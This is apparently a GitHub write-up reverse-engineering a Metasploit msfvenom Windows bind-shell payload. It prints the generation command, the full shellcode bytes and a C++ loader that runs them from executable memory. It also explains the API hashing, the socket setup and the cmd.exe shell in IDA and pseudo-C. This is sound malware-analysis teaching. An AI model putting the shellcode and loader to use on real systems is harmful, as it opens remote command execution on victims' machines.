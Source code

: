 # Reversing MSFVenom ShellCodes

For those of you that don't know what Msfvenom is:

> Msfvenom is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015.

Msfvenom is part of the popular Metasploit Framework. For a long time I wanted to dive deep into the different payload it produces and see how it works under the hood.

## Creating the payload

Payload could be created by using the msfvenom command, make sure Metasploit framework is installed.

`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f c`

Output:

```c
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

## Writing the wrapper

All we need to do is to allocate memory for the shellcode and transfer the execution to it's starting point.

```cpp
#include <Windows.h>

int main() {
	unsigned char shellcode[] = "...";

	PVOID shellcode_exec = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	
	if (shellcode_exec) {
		RtlCopyMemory(shellcode_exec, shellcode, sizeof(shellcode));
		DWORD dwThreadId;
		HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &dwThreadId);
		if (hThread != 0) {
			WaitForSingleObject(hThread, INFINITE);
		}
	}

	return 0;
}
```

By creating an application which will run the shellcode we could attach a debugger to the shellcode in case we need to check the shellcode dynamically.

## Assembly analysis

### Find required functions

Loading the shellcode into IDA we can see that it first calls to another function:

![](images/ida_shellcode.png)

Peeking inside we see the following:

![](images/first_function.png)

We can understand that the main function gets 2 arguments, an unknown hex value and a string pointer. We'll keep that in mind and go back to the main function.

For some of you the next instructions will be familiar, the shellcode is parsing the export table looking for specific exported function. 

First, it creates a hash to the module name:

![](images/module_hash.png)

The hashing algorithm is pretty basic: 
1. Transform module name to uppercase
2. ROR13 to each character
3. Add character hex to the result

We can write simple python script that does exactly the same:

```python
def ror(dword, bits):
    return (dword >> bits | dword << (32 - bits)) & 0xFFFFFFFF

def unicode(string, uppercase=True):
    result = ''
    if uppercase:
        string = string.upper()
    for c in string:
        result += c + '\x00'
    return result

def cal_hash(name, bits=13):
    hash = 0
    
    for c in unicode(module + '\x00'):
        hash = ror(hash, bits)
        hash += ord(c)

    print(hash)
```

Moving on we see that the shellcode uses the same ROR13 hashing algorithm for the function names:

![](images/function_hash.png)

We can divide the above image into 3 sections:

1. Getting the functions names - this could be done by parsing the PE headers of the DLL pointer by `_LDR_DATA_TABLE_ENTRY->DllBase`.
2. Hash the function name - using ROR13 without uppercasing
3. Compare the result with what we are looking for

At this point we figures what the unknown value we pushed earlier to the stack means. The value is a `hash(module_name) + hash(function_name)`. If we want to reveal what function we are searching for we have 2 options:

1. Create a python script that calculates the hashes for known functions and comparing the results with the hashes in our executable.
2. Using the debugger - place a breakpoint right after the loop and continue execution:

![](images/find_hash.png)

We can see that `esi` holds the value `LoadLibraryExA`. BUT! that's not the function we looked for, if you'll notice, `esi` moved to the next function before the comparison so we need the function exported before `LoadLibraryExA` which is, `LoadLibraryA`.

*NOTE: You can repeat the same process and find the rest functions.*

Ok, now we want to know what the shellcode does with the found function? 

![](images/call_found_function.png)

First, the shellcode finds the address of the function using a pointer to the export table saved earlier. 

Next, the stack need to be fixed before calling the found function. Recall that before jumping back the the main function we pushed the hash and a string to the stack, we need to pop them out and fix more changes that we've done during the parsing. One of the changes is to fix the return address, we need that the function will return to the previous function.

Now, the shellcode can call the function.

### Creating socket

Going back to the first function call, we can understand what's going on much easier than before:

![](images/create_socket.png)

All that this code section does is to create a communication socket to the desired `LPORT` that we'll use later.

The socket creation flow in pseudo-C:

```c
LoadLibraryA("ws2_32");
WSAStartup(0x0190, &WSAData);
WSASocketA(AF_INET, SOCK_STREAM, 0, 0, 0, 0);
bind(socket, &sockaddr_in, 0x10);
listen(socket, 0);
new_socket = accept(socket, 0, 0);
closesocket(socket); // close listening socket
```

### Getting a shell

After creating a socket the shellcode create a shell to the infected system using the following code:

![](images/new_process.png)

It creates new cmd.exe process and sets the input, output and error streams to be the socket created earlier. That way, the attacker could run commands from the other end of the socket.

